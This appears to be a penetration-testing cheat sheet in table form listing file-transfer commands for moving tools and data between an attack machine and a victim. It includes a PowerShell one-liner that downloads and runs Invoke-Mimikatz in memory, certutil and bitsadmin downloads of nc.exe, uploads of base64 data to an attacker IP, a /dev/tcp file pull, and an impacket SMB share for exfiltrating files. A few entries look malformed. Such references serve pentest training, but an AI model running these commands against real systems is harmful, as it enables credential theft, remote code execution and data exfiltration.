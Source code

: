 | **Command** | **Description** |
| ---- | ---- |
| **Windows** |  |
| `Invoke-WebRequest https://<snip>/PowerView.ps1 -OutFile PowerView.ps1` | Download a file with PowerShell |
| `IEX (New-Object Net.WebClient).DownloadString('https://<snip>/Invoke-Mimikatz.ps1')` | Execute a file in memory using PowerShell |
| `Invoke-WebRequest -Uri http://10.10.10.32:443 -Method POST -Body $b64` | Upload a file with PowerShell |
| `Invoke-WebRequest -Uri $uri -Method POST -InFile $filePath` | Upload file with PowerShell |
| `bitsadmin /transfer n http://10.10.10.32/.exe C:\Temp\nc.exe` | Download a file using Bitsadmin |
| `certutil.exe -verifyctl -split -f http://10.10.10.32/nc.exe` | Download a file using Certutil |
| `Invoke-WebRequest http://nc.exe -UserAgent [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome -OutFile "nc.exe"` | Invoke-WebRequest using a Chrome User Agent |
| **Linux** |  |
| `wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh` | Download a file using Wget |
| `curl -o /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh` | Download a file using cURL |
| `scp C:\Temp\bloodhound.zip user@10.10.10.150:/tmp/bloodhound.zip` | Upload a file using SCP |
| `scp user@target:/tmp/mimikatz.exe C:\Temp\mimikatz.exe` | Download a file using SCP |
| `nc -lvnp 8000 < file` | To start nc listener to send the file |
| `bash -c "cat < /dev/tcp/<sender_ip>/<sender_port> > file"` | Download file using nc |
| `python3 -m pip install --user uploadserver` | Install python upload server |

### Create an smb share using impacket smbserver

| **Command** | **Description** |
|-------------|-----------------|
| ***On attack machine*** |
| `#> python3 <path>/smbserver.py -smb2support <share_name> <receiver_path>` | Starts an smbv1 share. `-smb2support` is used to support newer SMB versions |
| ***On victim machine*** |
| `move <filename> \\<smb_server_ip>\<share_name>` | Use `move` to copy the files to the smb share |


Downloading Using SCP

`scp <user>@<ip>:<remote path> <local path>`


Uploading Using SCP

`scp <local path> <user>@<ip>:<remote path>`